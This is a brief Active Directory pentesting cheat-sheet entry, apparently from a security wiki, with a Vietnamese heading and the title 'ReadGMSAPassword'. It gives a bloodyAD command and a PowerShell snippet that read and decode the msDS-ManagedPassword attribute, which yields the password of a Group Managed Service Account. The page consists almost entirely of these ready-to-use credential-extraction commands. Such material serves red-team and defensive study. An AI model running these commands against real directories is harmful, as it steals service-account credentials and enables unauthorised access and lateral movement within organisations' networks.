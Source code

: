 # ReadGMSAPassword

Trích xuất mật khẩu của Group Managed Service Account (GMSA) từ Active Directory

#### Windows/Linux

{% code overflow="wrap" %}

```
bloodyAD -u <user> -d <domain> -p <pass> --host <ip> get object '<gmsaaccount>$' --attr msDS-ManagedPassword
```

{% endcode %}

#### Windows Only

{% code overflow="wrap" %}

```
$gmsa = Get-ADServiceAccount -Identity '<gmsaaccount>' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp
```

{% endcode %}
